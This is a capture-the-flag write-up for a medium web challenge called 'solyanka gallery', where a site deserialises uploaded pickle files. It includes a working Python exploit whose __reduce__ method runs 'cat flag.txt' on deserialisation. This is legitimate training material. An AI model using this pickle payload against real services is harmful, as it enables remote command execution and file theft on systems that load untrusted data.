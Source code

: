 ## solyanka gallery

Category: Web  
Difficulty: Medium

<img src="images/challenge.png" width=400>

In the challenge website, we are allowed to submit a pickle file, which will be deserialised and displayed.  

<img src="images/website.png" width=400>
<img src="images/source.png" width=600>

The flag file is also in the same directory as the server code.  

<img src="images/dockerfile.png" width=400>

Looking at the source code, we can see that the challenge author has left us a hint.

<img src="images/hint.png" width=400>

Searching online, we discover that a [RCE exploit](https://github.com/advisories/GHSA-655q-fx9r-782v) of Pickle's deserialisation already exists.  

We can then write an exploit script to create a pickle file that outputs the flag file on deserialisation.

```python
import pickle
import subprocess

class Exploit:
    def __reduce__(self):
        return (subprocess.check_output, (['cat', 'flag.txt'],))

payload = pickle.dumps(Exploit())

with open("payload.pkl", "wb") as f:
    f.write(payload)
```

After submitting the payload file on the website, we observe that the RCE has indeed revealed the flag.  

<img src="images/flag.png" width=600>